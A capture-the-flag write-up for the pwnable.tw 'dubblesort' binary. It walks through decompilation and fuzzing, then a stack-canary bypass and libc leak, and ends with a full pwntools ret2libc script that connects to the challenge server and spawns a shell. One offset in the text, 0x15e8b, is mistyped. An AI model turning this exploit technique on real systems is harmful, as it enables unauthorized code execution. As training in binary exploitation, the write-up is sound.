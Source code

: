 # dubblesort

file:
```
dubblesort: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=12a217baf7cbdf2bb5c344ff14adcf7703672fb1, stripped
```

checksec:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes     1               2       dubblesort
```

## solution

The program takes an input from stdin then prints it, then prompts input for some numbers and sorts them which makes sense given the name of the challenge. also as we're given a `libc_32.so.6` we can assume the solution requires a ret2libc.

Lets open it up in ghidra and clean it up


```cpp
int main(void)

{
  int canary_ret;
  uint num_check;
  undefined4 *num_temp;
  int in_GS_OFFSET;
  uint count;
  undefined4 num [8];
  undefined buf [64];
  int canary;
  
  canary = *(int *)(in_GS_OFFSET + 0x14);
  set_buf();
  __printf_chk(1,"What your name :");
  read(0,buf,0x40);
  __printf_chk(1,"Hello %s,How many numbers do you what to sort :",buf);
  __isoc99_scanf(&DAT_00010bfa,&count);
  if (count != 0) {
    num_temp = num;
    num_check = 0;
    do {
      __printf_chk(1,"Enter the %d number : ",num_check);
      fflush(stdout);
      __isoc99_scanf(&DAT_00010bfa,num_temp);
      num_check = num_check + 1;
      num_temp = num_temp + 1;
    } while (num_check < count);
  }
  sort(num,count);
  puts("Result :");
  if (count != 0) {
    num_check = 0;
    do {
      __printf_chk(1,&DAT_00010c1d,num[num_check]);
      num_check = num_check + 1;
    } while (num_check < count);
  }
  canary_ret = 0;
  if (canary != *(int *)(in_GS_OFFSET + 0x14)) {
    canary_ret = canary_check();
  }
  return canary_ret;
}
```


lets fuzz it and see if it breaks.

```
What your name :aaa
Hello aaa
$���,How many numbers do you what to sort :0
Processing......
[1]    23693 segmentation fault  ./dubblesort
```

```
What your name :aa
Hello aa
�$���,How many numbers do you what to sort :10
Enter the 0 number : 1
Enter the 1 number : 1
Enter the 2 number : 1
Enter the 3 number : 1
Enter the 4 number : 1
Enter the 5 number : 1
Enter the 6 number : 1
Enter the 7 number : 1
Enter the 8 number : 1
Enter the 9 number : +
Processing......
Result :
1 1 1 1 1 1 1 1 1 4159353380 % 
```

```
What your name :AAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAA
������,How many numbers do you what to sort :30
Enter the 0 number : 1
Enter the 1 number : 1
Enter the 2 number : 1
Enter the 3 number : 1
Enter the 4 number : 1
Enter the 5 number : 1
Enter the 6 number : 1
Enter the 7 number : 1
Enter the 8 number : 
1
Enter the 9 number : 1
Enter the 10 number : 1
Enter the 11 number : 1
Enter the 12 number : 1
Enter the 13 number : 1
Enter the 14 number : 1
Enter the 15 number : 1
Enter the 16 number : 
1
Enter the 17 number : 1
Enter the 18 number : 1
Enter the 19 number : 1
Enter the 20 number : 1
Enter the 21 number : 1
Enter the 22 number : 1
Enter the 23 number : 1
Enter the 24 number : 1
Enter the 25 number : 1
Enter the 26 number : 1
Enter the 27 number : 1
Enter the 28 number : 1
Enter the 29 number : 1
Processing......
1
1
Result :
1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 1 *** stack smashing detected ***: terminated
[1]    23755 abort      ./dubblesort
```

funky. it appears to be filling the unsorted array and then overflowing. given what we know there are a few things:

* we need to leak libc base address in order to use the ret2libc
* we need to bypass the stack canary

I guess it continues printing until it hits a random null character, which is why there is garbage when it prints. we can use this to leak as it will print the string entered and the values on the stack until a terminating character is reached.

First we can look into leaking the canary since that seems straight forward. Looking in ghidra, the difference between the canary (`0x14`) and the number input (`0x74`) is `0x60`, divided by 4 yields 24 numbers. So we need to enter 24 numbers before we can leak the canary using the a non-number input shown above.

Onto the ret2libc.

If we set a breakpoint at the second `__printf__chk` and check the stack, we can see that afte the user input of `AAAA` the address of libc is leaked on the stack. (TODO insert screenshot because colors). `vmmap` can show the addresses and taking the diff yields `001eb000`.

`readelf -S /usr/lib/i386-linux-gnu/libc-2.31.so` shows that this offset corresponds to the `.got.plt` section. given that we should be using the given libc, we just look where that `.got.plt` section is to find the offset required for the challenge. turns out that its `001b000a`. So the math is

`libc_base_address = leaked_address - 001b000a`


We dont need to find the symbols/text in libc manually since pwntools can do it. but just for kicks lets find `system` and `/bin/sh`

```
readelf -s libc_32.so.6 | grep system
   245: 00110690    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   627: 0003a940    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1457: 0003a940    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
rabin2 -z libc_32.so.6 | grep "/bin/sh"
704  0x00158e8b 0x00158e8b 7   8    .rodata                                           ascii   /bin/sh

```

so

```
system = libc_base + 0x3a940
binsh = libc_base + 0x15e8b
```


anyway heres the final script

```py
#!/usr/bin/env python3

from pwn import *

def start():
    global p
    if args.REMOTE:
        p = remote("chall.pwnable.tw", 10101)
    else:
        p = elf.process()

context(os="linux") 
context.binary = elf = ELF("./dubblesort")
context.log_level = "debug"
start()

libc = ELF("./libc_32.so.6")

p.sendlineafter(b"What your name :", b"A"*24)
p.recvuntil(b"A" * 24)

libc_base = u32(p.recv(4)) - 0x1b000a
print(hex(libc_base))

system = libc_base + libc.symbols["system"]
bin_sh = libc_base + next(libc.search(b"/bin/sh"))

# we need to send 24 chars + funky char + system + bin_sh
length = 24 + 1 + 9 + 1

p.sendlineafter(b"to sort :", str(length))

for _ in range(24):
    p.sendlineafter(b"number : ", b"1")

# for stack canary
p.sendline(b"+")

for _ in range(9):
    p.sendlineafter(b"number : ", str(system))

p.sendlineafter(b"number : ", str(bin_sh))
p.interactive()
```